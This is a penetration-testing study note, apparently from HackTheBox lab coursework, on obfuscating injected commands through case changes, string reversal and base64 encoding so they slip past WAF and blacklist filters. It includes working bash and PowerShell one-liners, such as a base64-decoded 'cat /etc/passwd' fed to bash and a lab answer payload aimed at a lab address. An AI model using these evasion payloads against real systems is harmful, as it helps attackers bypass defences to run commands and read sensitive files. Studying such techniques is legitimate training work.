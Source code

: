 ```yaml
---
title: e-Advanced Command Obfuscation
draft: false
tags:
---
```

When dealing with advanced filtering solutions such as WAF, basic evasion technique may not work.

## Case Manipulation

e.g

`WHOAMI` , `WhOaMi`

This usually works because command blacklist may not check for different case variations.

> This won't work in Linux since Linux commands are case sensitive

```powershell-session
PS C:\htb> WhOaMi

21y4d
```

On Linux, we have to use the following method to turn the command into an all-lowercase word:

```shell-session
21y4d@htb[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

21y4d
```

We can use command like below as well:

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

## Reversed Commands

Have a command template that switched reversed command back to normal.

e.g

Write `imaohw` to execute `whoami`.

First we have to get the reversed string of our command as follows:


```shell-session
jadu101@htb[/htb]$ echo 'whoami' | rev
imaohw
```

We can execute the original command by reversing it back using a sub-shell (`$()`).

```shell-session
21y4d@htb[/htb]$ $(rev<<<'imaohw')

21y4d
```

On Windows, we can reverse string as such:

```powershell-session
PS C:\htb> "whoami"[-1..-20] -join ''

imaohw
```

We can now use the below command to execute a reversed string with a PowerShell sub-shell (`iex "$()"`), as follows:

```powershell-session
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"

21y4d
```

## Encoded Commands

We can utilize various encoding tools, like base64 and xxd.

e.g base64

```shell-session
jadu101@htb[/htb]$ echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```

Now we can create a command that will decode the encoded string in a sub-shell (`$()`), and then pass it to `bash` to be executed (i.e. `bash<<<`), as follows:

```shell-session
jadu101@htb[/htb]$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

On Windows,

```powershell-session
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA
```

We may also achieve the same thing on Linux, but we would have to convert the string from `utf-8` to `utf-16` before we `base64` it, as follows:

```shell-session
jadu101@htb[/htb]$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64

dwBoAG8AYQBtAGkA
```

Finally, we can decode the b64 string and execute it with a PowerShell sub-shell (`iex "$()"`), as follows:

```powershell-session
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"

21y4d
```

In addition to the techniques we discussed, we can utilize numerous other methods, like wildcards, regex, output redirection, integer expansion, and many others. We can find some such techniques on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion).

```
Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1

94.237.59.67:40560

bash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```

